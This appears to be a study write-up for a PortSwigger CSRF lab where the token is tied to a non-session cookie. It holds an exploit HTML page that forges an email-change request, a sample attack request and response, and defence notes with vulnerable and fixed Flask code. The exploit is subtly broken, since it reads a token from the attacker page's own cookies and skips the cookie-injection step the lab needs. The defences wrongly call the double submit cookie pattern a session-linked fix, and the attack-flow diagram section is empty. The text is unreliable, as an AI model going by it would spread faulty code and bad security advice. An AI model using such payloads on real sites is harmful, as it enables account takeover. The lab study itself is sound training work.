

## Lab Overview: CSRF where Token is Tied to Non-Session Cookie

In this lab, we will explore a scenario where a web application uses tokens to prevent CSRF attacks, but the tokens are not fully integrated into the session handling system. Specifically, the tokens are tied to a non-session cookie, which can be exploited to bypass the CSRF protection.

### Background Theory

To understand the vulnerability, let's first review the concepts of session cookies and CSRF tokens.

#### Session Cookies

A session cookie is a temporary cookie that is used to maintain a user's session on a web application. It typically contains a unique identifier that links the user to their session data on the server.

#### CSRF Tokens

A CSRF token is a unique, unpredictable value that is generated by the server and sent to the client. The client must include this token in subsequent requests to prove that the request was initiated by the user and not an attacker.

### Vulnerability Analysis

In this lab, the web application uses tokens to protect against CSRF attacks. However, the tokens are tied to a non-session cookie, which means they are not linked to the user's session. This allows an attacker to exploit the vulnerability by crafting a malicious request that includes the token from the non-session cookie.

#### Step-by-Step Exploitation

1. **Identify the Vulnerable Parameter**: The vulnerable parameter is the email change functionality.
2. **Craft the Malicious Request**: The attacker crafts a request that includes the token from the non-session cookie.
3. **Trick the User**: The attacker tricks the user into clicking on a malicious link or visiting a page containing the malicious script.
4. **Execute the Attack**: The user's browser sends the request to the web application, which includes the token from the non-session cookie, bypassing the CSRF protection.

### Complete Code Example

Let's walk through a complete example of how to exploit this vulnerability using an HTML page hosted on an exploit server.

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Exploit</title>
</head>
<body>
    <script>
        // Function to submit the form
        function submitForm() {
            var xhr = new XMLHttpRequest();
            xhr.open('POST', 'https://example.com/change-email', true);
            xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
            xhr.onreadystatechange = function() {
                if (xhr.readyState === 4 && xhr.status === 200) {
                    console.log('Email changed successfully!');
                }
            };
            xhr.send('email=new@example.com&token=' + document.cookie.match(/token=([^;]*)/)[1]);
        }
    </script>

    <!-- Hidden form to trigger the CSRF attack -->
    <form id="csrfForm" method="POST" action="https://example.com/change-email">
        <input type="hidden" name="email" value="new@example.com">
        <input type="hidden" name="token" value="">
    </form>

    <!-- Button to trigger the CSRF attack -->
    <button onclick="submitForm()">Change Email</button>
</body>
</html>
```

### Explanation of the Code

1. **HTML Structure**: The HTML page contains a hidden form and a button to trigger the CSRF attack.
2. **JavaScript Function**: The `submitForm` function sends a POST request to the web application with the new email and the token from the non-session cookie.
3. **Hidden Form**: The hidden form is used to trigger the CSRF attack when the user clicks the button.

### Full HTTP Request and Response

Here is the full HTTP request and response for the CSRF attack:

#### HTTP Request

```http
POST /change-email HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Cookie: token=abcdef123456

email=new@example.com&token=abcdef123456
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 01 Jan 2024 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 20

Email changed successfully!
```

### Mermaid Diagram: Attack Flow



### Common Pitfalls and Detection

#### Common Pitfalls

1. **Token Management**: Ensure that tokens are properly managed and linked to the user's session.
2. **Cookie Security**: Use secure flags and HttpOnly attributes for cookies to prevent them from being accessed by JavaScript.
3. **Validation**: Validate all inputs and ensure that the token is correctly validated on the server.

#### Detection

Detection of CSRF vulnerabilities can be done using automated tools like Burp Suite, OWASP ZAP, and static analysis tools like SonarQube. These tools can identify potential CSRF vulnerabilities by analyzing the web application's behavior and code.

### How to Prevent / Defend

#### Secure Coding Fixes

1. **Token Integration**: Integrate tokens into the session handling system to ensure they are linked to the user's session.
2. **Secure Cookies**: Use secure flags and HttpOnly attributes for cookies to prevent them from being accessed by JavaScript.
3. **Input Validation**: Validate all inputs and ensure that the token is correctly validated on the server.

#### Configuration Hardening

1. **Set Secure Flags**: Set the `Secure` flag on session cookies to ensure they are only transmitted over HTTPS.
2. **Use HttpOnly Attribute**: Use the `HttpOnly` attribute on session cookies to prevent them from being accessed by JavaScript.
3. **Implement SameSite Attribute**: Use the `SameSite` attribute on session cookies to prevent them from being sent in cross-site requests.

#### Mitigations

1. **Double Submit Cookie Pattern**: Use the double submit cookie pattern to ensure that the token is linked to the user's session.
2. **Referer Header Check**: Check the `Referer` header to ensure that the request is coming from the same origin.
3. **Token Rotation**: Rotate tokens periodically to reduce the window of opportunity for an attacker.

### Secure vs Vulnerable Code Comparison

#### Vulnerable Code

```python
@app.route('/change-email', methods=['POST'])
def change_email():
    email = request.form['email']
    token = request.form['token']
    if token == request.cookies.get('token'):
        # Change email logic
        return "Email changed successfully!"
    else:
        return "Invalid token"
```

#### Secure Code

```python
@app.route('/change-email', methods=['POST'])
def change_email():
    email = request.form['email']
    token = request.form['token']
    session_token = session.get('token')
    if token == session_token:
        # Change email logic
        return "Email changed successfully!"
    else:
        return "Invalid token"
```

### Practice Labs

For hands-on practice with CSRF vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various web security topics, including CSRF.
- **OWASP Juice Shop**: A deliberately insecure web application that includes several CSRF vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is intentionally vulnerable to common web application flaws, including CSRF.

By thoroughly understanding the concepts, mechanics, and defenses against CSRF attacks, you can better protect web applications from these types of vulnerabilities.

---
<!-- nav -->
[[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/06-Lab 5 CSRF where token is tied to non session cookie/01-Introduction to Cross-Site Request Forgery (CSRF)|Introduction to Cross-Site Request Forgery (CSRF)]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/06-Lab 5 CSRF where token is tied to non session cookie/00-Overview|Overview]] | [[03-Lab 5 CSRF Where Token is Tied to Non-Session Cookie|Lab 5 CSRF Where Token is Tied to Non-Session Cookie]]
